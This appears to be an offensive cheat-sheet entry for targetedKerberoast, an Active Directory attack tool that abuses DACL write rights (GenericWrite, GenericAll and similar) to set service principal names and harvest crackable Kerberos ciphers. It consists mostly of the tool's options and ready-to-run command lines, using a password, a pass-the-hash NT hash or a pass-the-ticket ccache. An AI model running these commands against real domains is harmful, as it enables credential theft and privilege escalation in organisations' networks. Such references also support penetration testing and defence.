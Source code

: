 # targetedKerberoast

% dacl, GenericWrite, https://github.com/ShutdownRepo/targetedKerberoast
#plateform/linux #target/remote #cat/ATTACK/AD/DACL-ABUSE

## requierements
```
GenericAll, GenericWrite, WriteProperty or Validated-SPN 
```

## targetedKerberoast (cred)
--request-user username (just the username, no domain needed)
-o file       to write ciphers in JtR/hashcat format
--use-ldaps   Use LDAPS instead of LDAP
--only-abuse  Ignore accounts that have an SPN
--no-abuse    Don't attempt targeted Kerberoasting
```
targetedKerberoast.py -v -d <domain_fqdn> -u <user> -p <password> --dc-ip <dc_ip>
```

## targetedKerberoast (pth)
--request-user username (just the username, no domain needed)
-o file       to write ciphers in JtR/hashcat format
--use-ldaps   Use LDAPS instead of LDAP
--only-abuse  Ignore accounts that have an SPN
--no-abuse    Don't attempt targeted Kerberoasting
```
targetedKerberoast.py -v -d <domain_fqdn> -u <user> -H <nt_hash> --dc-ip <dc_ip>
```

## targetedKerberoast (ptt)
--request-user username (just the username, no domain needed)
-o file       to write ciphers in JtR/hashcat format
--use-ldaps   Use LDAPS instead of LDAP
--only-abuse  Ignore accounts that have an SPN
--no-abuse    Don't attempt targeted Kerberoasting
```
export KRB5CCNAME=<ccache>
targetedKerberoast.py -v -d <domain_fqdn> -k --no-pass --dc-ip <dc_ip>
```


